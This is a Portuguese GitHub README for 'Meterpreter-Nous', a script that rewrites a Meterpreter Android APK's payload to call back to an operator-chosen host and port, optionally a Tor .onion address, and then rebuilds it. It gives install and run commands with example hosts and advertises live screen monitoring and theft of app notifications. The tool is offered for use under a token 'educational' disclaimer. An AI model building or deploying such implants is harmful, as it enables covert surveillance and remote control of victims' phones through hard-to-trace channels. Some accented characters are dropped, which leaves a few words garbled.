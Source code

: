 # Meterpreter-Nous  

*"Hack the system. Reconfigure. Adapt. Overcome."*  

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.  

---

## [ SYSTEM CORE ]  

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.  
- Suporte total a hosts `.onion` para conexões sigilosas via **Tor**.  
- Compilação automatizada do APK modificado.  

---

## [ SYSTEM REQUIREMENTS ]  

Certifique-se de possuir as ferramentas essenciais:  

- [Python 3.x](https://www.python.org/)  
- [apktool](https://github.com/iBotPeaches/Apktool)  
- [Java](https://www.java.com/)  

---

## [ INSTALL & DEPLOY ]  

Clone o repositório e navegue até o diretório:  

```bash
git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh
```

## [ EXECUTION MODE ]  

Defina o host e porta diretamente na CLI:  

```bash
python script.py --host <IP ou domínio> --porta <porta> --tor <true/false>
```

Exemplos de Execu            o:

**1. Configura            o de um host sem Tor:**
```bash
python script.py --host 192.168.0.1 --porta 8080 --tor false
```

**2. Configura            o de um host .onion com Tor:**
```bash
python script.py --host exemplo.onion --porta 8080 --tor true
```


---

[ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

Monitoramento em tempo real da tela do Android.

Captura de notificações de redes sociais e outros aplicativos.


Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em msf-scripts.
Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

```bash
meterpreter> run <script>
```

---

> "No system is safe. The only real security is obscurity."

---

[ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

- Não há qualquer garantia de funcionamento ou segurança.

- O uso deste código é de total responsabilidade do usuário.

- Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.


Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.


